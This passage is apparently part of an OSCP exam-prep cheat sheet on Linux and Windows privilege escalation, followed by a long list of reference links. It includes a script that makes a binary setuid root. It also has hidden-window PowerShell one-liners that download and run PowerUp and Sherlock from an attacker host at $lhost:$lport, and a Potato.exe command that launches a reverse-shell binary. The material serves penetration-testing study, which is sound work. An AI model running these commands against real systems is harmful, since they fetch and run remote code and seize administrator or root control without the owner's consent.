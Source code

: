         # Compile with: `gcc test.c -o test`
        ```
        ```bash
        #!/bin/bash
        chown root /tmp/test 
        chgrp root /tmp/test
        chmod u+s /tmp/test 
        ```
* OUT_OF_IDEAS?:   dpkg -l    and check versions with exploit-db
* STILL OUT?: Follow g0tm1lk [^4]
[^4]: [g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

---

## Privilege Escalation - Windows
* WindowsPrivCheck.bat [^5][^6](requires accesschk.exe)
    ```powershell
    powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadFile('http://$lhost:$lport/WinPrivCheck.bat','WinPrivCheck.bat');"
    ```  
    ```powershell
    powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadFile('http://$lhost:$lport/accesschk.exe','accesschk.exe');" 
    ```
* windows-privesc-check2.exe
    *  
        ```batch
        windows-privesc-check2.exe -A --dump
        ```
* Check for missing patches:
    * WMIC: 
        ```batch
        wmic qfe get Caption,Description,HotFixID,InstalledOn
        ```
* POTATO: by foxglovesec:
    ```batch
    start /b Potato.exe -ip 10.11.1.218 -cmd "C:\\temp\\rev.exe" -disable_exhaust true
    ```
* With Powershell
    * PowerSploit-PowerUp.ps1:
        ```powershell
        powershell -exec bypass -windowstyle hidden -command "IEX (New-Object System.Net.Webclient).DownloadString('http://$lhost:$lport/PowerUp.ps1');Invoke-AllChecks"
        ```
    * PowerSploit-PowerUp.ps1:
        * In PowerShell Exec BypassMode:
            * `#!powershell Import-Module .\PowerUp.ps1` \r\n then in another line `#!powershell Invoke-AllChecks`
    * PowerUp.ps1:
        * `#!powershell Write-UserAddMSI` (if installedAlwaysElevated in On)
    * Sherlock:
        * 
            ```powershell
            powershell -exec bypass -windowstyle hidden -command "IEX (New-Object System.Net.Webclient).DownloadString('http://$lhost:$lport/Sherlock.ps1');Find-AllVulns"
            ```
    * JAWS:[^7]


[^1]: [sleventyeleven](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
[^2]: [highon.coffee](https://highon.coffee/downloads/linux-local-enum.sh)
[^3]: [rebootuser](https://github.com/rebootuser/LinEnum)
[^8]: [Memmodipper](https://www.exploit-db.com/exploits/18411)
[^9]: [chkrootkit](https://www.exploit-db.com/exploits/33899)
[^10]:  [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
[^11]: [Amplia Security](https://www.ampliasecurity.com/research.html)
[^12]: [Foofus](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
[^13]: [neomh](https://github.com/neomh/cheat-sheets/blob/master/Commands)
[^14]: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[^15]: [Vulnerabilityassessment.co](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
[^16]: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)
[^17]: [Escape from shellcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
[^18]: [ianthomasfry](https://ianthomasfry.blogspot.com/2017/05/oscp-exam-study-guide-i-first-steps.html)
[^19]: [Sec Juice](https://www.secjuice.com/oscp-prep-guidance/)
[^20]: [scund00r](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
[^21]: [backdoorshell](https://backdoorshell.gitbooks.io/oscp-useful-links/content/fuzzing.html)
[^22]: [0xc0ffee](http://0xc0ffee.io/blog/OSCP-Goldmine)
[^23]: [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/)
[^24]: [ihack4falafel](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Bookmark%20List.pdf)
[^25]: [kevsec](http://kevsec.fr/resources/)
[^26]: [futureoscp](http://futureoscp.blogspot.com/2017/10/usefull-oscp-material.html)
[^5]: [WindowsPrivCheck](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Upgrading%20half%20shells%20to%20fully%20interactive%20TTYs.pdf)
[^6]: [Accesschk](https://download.sysinternals.com/files/AccessChk.zip)
[^7]: [JAWS](https://github.com/411Hall/JAWS.git)
[^31]: [Exploit-db-130179](https://www.exploit-db.com/papers/13017)
[^32]: [hackingarticles](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/)
[^33]: [Graceful security](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
[^34]: [3mrgnc3](https://github.com/3mrgnc3/LFIter2/blob/master/win-fpaths.txt)
[^35]: [Ethical Hackers Club](https://www.youtube.com/watch?v=1fkgo4hsyp8)
[^36]: [HackMag](https://hackmag.com/security/hacking-mysql-databases-methods-and-tools/)
